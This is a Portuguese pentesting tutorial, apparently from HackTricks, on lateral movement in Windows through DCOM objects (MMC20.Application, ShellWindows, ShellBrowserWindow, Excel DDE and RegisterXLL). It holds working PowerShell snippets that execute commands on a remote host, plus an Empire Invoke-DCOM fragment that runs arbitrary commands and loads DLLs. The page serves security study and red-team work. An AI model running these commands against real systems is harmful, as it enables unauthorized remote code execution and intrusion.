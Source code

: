 # DCOM Exec

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de segurança cibernética**? Você quer ver sua **empresa anunciada no HackTricks**? ou você quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud)..

</details>

## MMC20.Application

Objetos **DCOM** (Distributed Component Object Model) são **interessantes** devido à capacidade de **interagir** com os objetos **pela rede**. A Microsoft tem uma boa documentação sobre DCOM [aqui](https://msdn.microsoft.com/en-us/library/cc226801.aspx) e sobre COM [aqui](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). Você pode encontrar uma lista sólida de aplicativos DCOM usando o PowerShell, executando `Get-CimInstance Win32_DCOMApplication`.

O objeto COM [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx) permite que você crie componentes de operações de snap-in MMC. Ao enumerar os diferentes métodos e propriedades dentro deste objeto COM, notei que há um método chamado `ExecuteShellCommand` em Document.ActiveView.

![](<../../.gitbook/assets/image (4) (2) (1) (1).png>)

Você pode ler mais sobre esse método [aqui](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). Até agora, temos um aplicativo DCOM ao qual podemos acessar pela rede e podemos executar comandos. A última peça é aproveitar esse aplicativo DCOM e o método ExecuteShellCommand para obter a execução de código em um host remoto.

Felizmente, como administrador, você pode interagir remotamente com o DCOM com o PowerShell usando “[activator]::CreateInstance([type]::GetTypeFromProgID”. Tudo o que você precisa fazer é fornecer um ProgID DCOM e um endereço IP. Ele fornecerá de volta uma instância desse objeto COM remotamente:

![](<../../.gitbook/assets/image (665).png>)

É possível invocar o método `ExecuteShellCommand` para iniciar um processo no host remoto:

![](<../../.gitbook/assets/image (1) (4) (1).png>)

## ShellWindows & ShellBrowserWindow

O objeto **MMC20.Application** não tinha “LaunchPermissions” explícitas, resultando no conjunto de permissões padrão permitindo acesso de administradores:

![](<../../.gitbook/assets/image (4) (1) (2).png>)

Você pode ler mais sobre esse tópico [aqui](https://twitter.com/tiraniddo/status/817532039771525120).\
Visualizar quais outros objetos que não têm conjunto de LaunchPermission explícito pode ser alcançado usando o [OleView .NET](https://github.com/tyranid/oleviewdotnet) de [@tiraniddo](https://twitter.com/tiraniddo), que tem excelentes filtros Python (entre outras coisas). Neste caso, podemos filtrar todos os objetos que não têm permissão de lançamento explícita. Ao fazer isso, dois objetos me chamaram a atenção: `ShellBrowserWindow` e `ShellWindows`:

![](<../../.gitbook/assets/image (3) (1) (1) (2).png>)

Outra maneira de identificar objetos-alvo potenciais é procurar pelo valor `LaunchPermission` ausente nas chaves em `HKCR:\AppID\{guid}`. Um objeto com permissões de lançamento definidas parecerá abaixo, com dados representando a ACL para o objeto no formato binário:

![](https://enigma0x3.files.wordpress.com/2017/01/launch\_permissions\_registry.png?w=690\&h=169)

Aqueles sem conjunto explícito de LaunchPermission faltarão essa entrada específica no registro.

### ShellWindows

O primeiro objeto explorado foi [ShellWindows](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773974\(v=vs.85\).aspx). Como não há [ProgID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms688254\(v=vs.85\).aspx) associado a este objeto, podemos usar o método .NET [Type.GetTypeFromCLSID](https://msdn.microsoft.com/en-us/library/system.type.gettypefromclsid\(v=vs.110\).aspx) emparelhado com o método [Activator.CreateInstance](https://msdn.microsoft.com/en-us/library/system.activator.createinstance\(v=vs.110\).aspx) para instanciar o objeto via seu AppID em um host remoto. Para fazer isso, precisamos obter o [CLSID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms691424\(v=vs.85\).aspx) para o objeto ShellWindows, que pode ser realizado usando o OleView .NET também:

![shellwindow\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellwindow\_classid.png?w=434\&h=424)

Como você pode ver abaixo, o campo “Launch Permission” está em branco, o que significa que nenhuma permissão explícita está definida.

![screen-shot-2017-01-23-at-4-12-24-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-12-24-pm.png?w=455\&h=401)

Agora que temos o CLSID, podemos instanciar o objeto em um destino remoto:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```
Com o objeto instanciado no host remoto, podemos interagir com ele e invocar qualquer método que desejarmos. O identificador retornado para o objeto revela vários métodos e propriedades, com os quais não podemos interagir. Para conseguir interagir com o host remoto, precisamos acessar o método [WindowsShell.Item](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773970\(v=vs.85\).aspx), que nos dará de volta um objeto que representa a janela do shell do Windows:
```
$item = $obj.Item()
```
![](https://enigma0x3.files.wordpress.com/2017/01/item\_instantiation.png?w=416\&h=465)

Com um controle total da janela do Shell, agora podemos acessar todos os métodos/propriedades esperados que são expostos. Depois de passar por esses métodos, **`Document.Application.ShellExecute`** se destacou. Certifique-se de seguir os requisitos de parâmetros para o método, que estão documentados [aqui](https://msdn.microsoft.com/en-us/library/windows/desktop/gg537745\(v=vs.85\).aspx).
```powershell
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
![](https://enigma0x3.files.wordpress.com/2017/01/shellwindows\_command\_execution.png?w=690\&h=426)

Como você pode ver acima, nosso comando foi executado com sucesso em um host remoto.

### ShellBrowserWindow

Este objeto em particular não existe no Windows 7, tornando seu uso para movimento lateral um pouco mais limitado do que o objeto "ShellWindows", que testei com sucesso no Win7-Win10.

Com base na minha enumeração deste objeto, parece fornecer efetivamente uma interface na janela do Explorer, assim como o objeto anterior. Para instanciar este objeto, precisamos obter seu CLSID. Semelhante ao acima, podemos usar o OleView .NET:

![shellbrowser\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellbrowser\_classid.png?w=428\&h=414)

Novamente, observe o campo de Permissão de Lançamento em branco:

![screen-shot-2017-01-23-at-4-13-52-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-13-52-pm.png?w=399\&h=340)

Com o CLSID, podemos repetir as etapas tomadas no objeto anterior para instanciar o objeto e chamar o mesmo método:
```powershell
$com = [Type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "<IP>")
$obj = [System.Activator]::CreateInstance($com)

$obj.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\system32", $null, 0)
```
![](https://enigma0x3.files.wordpress.com/2017/01/shellbrowserwindow\_command\_execution.png?w=690\&h=441)

Como você pode ver, o comando foi executado com sucesso no alvo remoto.

Uma vez que este objeto se comunica diretamente com o shell do Windows, não precisamos invocar o método "ShellWindows.Item", como no objeto anterior.

Embora esses dois objetos DCOM possam ser usados para executar comandos de shell em um host remoto, existem muitos outros métodos interessantes que podem ser usados para enumerar ou interferir em um alvo remoto. Alguns desses métodos incluem:

* `Document.Application.ServiceStart()`
* `Document.Application.ServiceStop()`
* `Document.Application.IsServiceRunning()`
* `Document.Application.ShutDownWindows()`
* `Document.Application.GetSystemInformation()`

## ExcelDDE & RegisterXLL

De maneira semelhante, é possível mover lateralmente abusando de objetos DCOM do Excel. Para mais informações, leia [https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)
```powershell
# Chunk of code from https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
## You can see here how to abuse excel for RCE
elseif ($Method -Match "DetectOffice") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $isx64 = [boolean]$obj.Application.ProductCode[21]
    Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
elseif ($Method -Match "RegisterXLL") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $obj.Application.RegisterXLL("$DllPath")
}
elseif ($Method -Match "ExcelDDE") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $Obj.DisplayAlerts = $false
    $Obj.DDEInitiate("cmd", "/c $Command")
}
```
## Ferramenta

O script Powershell [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) permite invocar facilmente todas as maneiras comentadas de executar código em outras máquinas.

## Referências

* O primeiro método foi copiado de [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/), para mais informações siga o link.
* A segunda seção foi copiada de [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/), para mais informações siga o link.

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de segurança cibernética**? Você quer ver sua **empresa anunciada no HackTricks**? ou quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e para o** [**repositório hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
